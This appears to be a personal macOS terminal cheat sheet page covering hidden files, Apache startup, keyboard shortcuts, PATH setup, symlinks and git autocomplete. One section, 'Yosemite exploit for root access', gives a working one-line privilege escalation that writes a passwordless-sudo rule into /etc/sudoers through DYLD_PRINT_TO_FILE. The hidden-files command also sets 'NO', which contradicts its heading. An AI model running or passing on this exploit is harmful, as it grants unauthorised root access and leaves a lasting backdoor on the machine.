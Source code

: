 ```yaml
---
layout: default
title: OS X
---
```


## Always show hidden files: ##

{% highlight bash %}
defaults write com.apple.finder AppleShowAllFiles NO
{% endhighlight %}

## Start Apache on system startup: ##

{% highlight bash %}
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
{% endhighlight %}

## Keyboard shortcuts: ##

{% highlight bash %}
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
{% endhighlight %}

## Yosemite exploit for root access: ##

{% highlight bash %}
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
{% endhighlight %}

## Add mysql to terminal shell: ##

{% highlight bash %}
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
{% endhighlight %}

## Install file (e.g. composer.phar) globally: ##

{% highlight bash %}
sudo mv %file% /usr/local/bin/%file%
{% endhighlight %}

## Create symbolic link: ##

{% highlight bash %}
ln -s %file_path% %link_path%
{% endhighlight %}

## Install git bash-autocomplete: ##

{% highlight bash %}
curl https://raw.githubusercontent.com/git/git/master/contrib/completion/git-completion.bash -o ~/.git-completion.bash

# edit `.bash_profile` file:
vi ~/.bash_profile

# add below:
if [ -f ~/.git-completion.bash ]; then
  . ~/.git-completion.bash
fi
{% endhighlight %}
